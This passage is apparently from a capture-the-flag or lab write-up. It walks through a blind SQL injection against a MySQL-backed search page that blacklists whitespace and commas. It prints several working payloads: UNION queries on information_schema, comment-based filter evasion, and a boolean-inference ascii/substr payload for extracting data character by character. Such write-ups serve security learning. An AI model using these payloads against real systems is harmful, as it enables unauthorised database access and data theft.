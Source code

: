 
Tried this next to see if our user would get blocked from reading information_schema tables:
`')/**/union/**/select/**/*/**/FROM/**/information_schema.schemata;#`
returned:
```
The used SELECT statements have a different number of columns
```
Nice! So this helped reassure me of the assumptions I have made so far.

Ok so dumb idea time, look up different information schema tables and try the ones with different number of columns until I don't get that error anymore.

Trying a table with 4 columns
`')/**/union/**/select/**/*/**/FROM/**/information_schema.CHARACTER_SETS;#`
```
The used SELECT statements have a different number of columns
```

Trying table with 2 columns
`')/**/union/**/select/**/*/**/FROM/**/information_schema.COLLATION_CHARACTER_SET_APPLICABILITY;#`
```
The used SELECT statements have a different number of columns
```

Ok after spending a lot of time looking for information_schema tables with different number of columns I decided I could either spin up a mysql server and checkout the columns table to better get a read on this, or try a different approach.

So what do I know so far? There are certain blacklisted characters that prevent the query from being passed to the vulnerable sql. As of now I know that includes whitespace and commas. The database we can read from is called `db`.

I then started to play around with seeing if I could get different results to see if an inferential vulnerability was here. The cheat sheet I tend to take my base queries from is the [Perspective Risk one](https://www.perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/). 

I started to play with:

`')/**/AND/**/1=1;#`
and 
`')/**/AND/**/1=2;#`

but there was no changes. I then realized both would evaluate to the same thing (a blank page). So I tried using an ID that actually existed and observed how that changed.

`1')/**/AND/**/1=1;#`
returned the search result of ID 1
`1')/**/AND/**/1=2;#`
returned a blank page.

### Exfiltration (w/ python) - Table Value dumps
Now I got something I can work with. The queries from the sqli cheat sheet had to be modified so that they wouldn't be filtered. I used this one as a test one:
`1')/**/AND/**/(ascii(substr((SELECT/**/schema_name/**/FROM/**/information_schema.schemata/**/LIMIT/**/1/**/OFFSET/**/0)/**/FROM/**/1/**/FOR/**/1)))/**/>/**/95;#`
This is the fully constructed boolean inferential sqli I will use. To prove this works I'll try and get the database name 'db' which I already know exists. I wrote a script to do this (in python 3) which I will add in [this directory](python_scripts). I'll also add some comments at the top of the scripts to explain how they work a bit. The last output line is usually the full string we wanted. The array above it will usually be the ascii decimal representation of that string.
